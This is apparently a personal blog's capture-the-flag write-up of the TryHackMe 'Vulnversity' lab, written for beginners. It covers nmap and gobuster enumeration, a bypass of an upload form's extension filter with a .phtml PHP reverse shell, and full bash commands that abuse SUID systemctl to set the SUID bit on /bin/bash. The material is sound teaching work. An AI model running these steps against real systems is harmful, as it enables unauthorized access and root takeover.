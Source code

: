 ```yaml
---
layout: single
title: Vulnversity - Try Hack Me
excerpt: "Vulnversity is a beginner friendly box from TryHackMe. The initial foothold involves exploiting a poorly secured upload functionality. Privilege Escalation is done via systemctl which has suid bit set"
date: 2022-01-03
classes: wide
header:
  teaser: /assets/images/thm/vulnversity/thumbnail.png
  teaser_home_page: true
  icon: /assets/images/thm-logo.png
categories:
  - tryhackme
  - infosec
tags:  
  - upload vulnerability
  - security
  - pentesting
  - systemctl
---
```


![](/assets/images/thm/vulnversity/1.png)

Hello, today we’re doing Vulnversity from tryhackme.com , an easy machine aimed for beginners. It involved finding an upload form, then exploiting that poorly secured upload form to obtain a shell on the box. For privilege escalation we found out that there is a suid bit set on systemctl , checking gtfobins gives us a method on how to run commands as root.

# Nmap

```bash
# Nmap 7.91 scan initiated Mon Sep 13 22:32:58 2021 as: nmap -sC -sV -oN nmap/vulnversity 10.10.209.201
Nmap scan report for 10.10.209.201
Host is up (0.026s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
|   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA)
|_  256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
|_http-server-header: squid/3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
| http-vulners-regex: 
|   /main.pl: 
|_    cpe:/a:squid-cache:squid:3.5.12
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Vuln University
Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h20m00s, deviation: 2h18m34s, median: 0s
|_nbstat: NetBIOS name: VULNUNIVERSITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: vulnuniversity
|   NetBIOS computer name: VULNUNIVERSITY\x00
|   Domain name: \x00
|   FQDN: vulnuniversity
|_  System time: 2021-09-13T22:33:21-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-09-14T02:33:21
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Sep 13 22:33:34 2021 -- 1 IP address (1 host up) scanned in 36.66 seconds
```

6 ports open, we'll start enumerating the ftp first then as we go we’ll enumerate each port

# FTP

If anonymous login was enabled, nmap would have pointed that out, but tools may fail from time to time and I always like checking manually anyway.

![](/assets/images/thm/vulnversity/2.png)

Anonymous login wasn't enabled and no public exploits are available for that version. Moving on…

# SMB

![](/assets/images/thm/vulnversity/3.png)

Nothing to see here.. Moving on

# WebServer - 3333

![](/assets/images/thm/vulnversity/4.png)

Nothing on the page is clickable, most likely a static page. Checking the source code..

![](/assets/images/thm/vulnversity/5.png)

Well, nothing.. Starting a gobuster with different extensions

![](/assets/images/thm/vulnversity/6.png)

Let’s check other things while gobuster is running.

Going to /robots.txt

![](/assets/images/thm/vulnversity/7.png)

404, but the server is disclosing which version of apache is the webserver running on. This would definitely be a finding on a pentest :)

Checking what gobuster's doing

![](/assets/images/thm/vulnversity/8.png)

And we get a hit on /internal , let’s check that out.

![](/assets/images/thm/vulnversity/9.png)

Cool, let’s try uploading a php file

Trying to upload a php reverse shell from pentestmonkey

![](/assets/images/thm/vulnversity/10.png)

![](/assets/images/thm/vulnversity/11.png)

![](/assets/images/thm/vulnversity/12.png)

And we get “Extension not allowed” , but what if it doesn’t check for other extensions and just checks for .php? What if we try uploading a .phtml for example? Will that do the thing?

![](/assets/images/thm/vulnversity/13.png)

![](/assets/images/thm/vulnversity/14.png)

![](/assets/images/thm/vulnversity/15.png)

And hey, it says “Success”, now the question is where this file has been uploaded? Let’s try /internal/shell.phtml (also starting a netcat listener in the background)

![](/assets/images/thm/vulnversity/16.png)

![](/assets/images/thm/vulnversity/17.png)

Not here, but if we remember correctly, gobuster found an images directory.

![](/assets/images/thm/vulnversity/18.png)

Unfortunately, we don’t see our shell here, let’s try the root directory

![](/assets/images/thm/vulnversity/19.png)

Not here... Let’s take a step back and gobuster again what’s inside of /internal directory

![](/assets/images/thm/vulnversity/20.png)

And hey, we get a hit right away. Let’s go to /uploads

![](/assets/images/thm/vulnversity/21.png)

We’ve already started the listener in the background, let’s just click it and see if we get a shell back

![](/assets/images/thm/vulnversity/22.png)

We do, I have stabilized the shell, and read user.txt :)

Now, we are www-data which is a service account, how can we escalate our privileges to another user or even root? I've tried simple things like sudo -l and finding suid binaries with find

![](/assets/images/thm/vulnversity/23.png)

There is one thing that really stands out, and that is systemctl, you don’t usually see that having a suid bit set, let’s check it on gtfobins.github.io , maybe we can escalate our privileges with it.

![](/assets/images/thm/vulnversity/24.png)

Well, good news, let’s click on “SUID”

![](/assets/images/thm/vulnversity/25.png)

Let’s try escalating our privileges with it.

Adjusting it a bit, this is what we’re going to run

```bash
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "id > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
systemctl link $TF
systemctl enable --now $TF
```

![](/assets/images/thm/vulnversity/26.png)

Let’s modify “ExecStart” in order to set a suid bit on /bin/bash

```bash
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod +s /bin/bash"
[Install]
WantedBy=multi-user.target' > $TF
systemctl link $TF
systemctl enable --now $TF
```
Let’s try this

![](/assets/images/thm/vulnversity/27.png)

Well, that was it, an easy box, aimed for beginners. All I do when I write these write-ups is that I want to show you guys the methodology (if beginners are reading this), my thought process and all that stuff. Hope you've learned something new :)
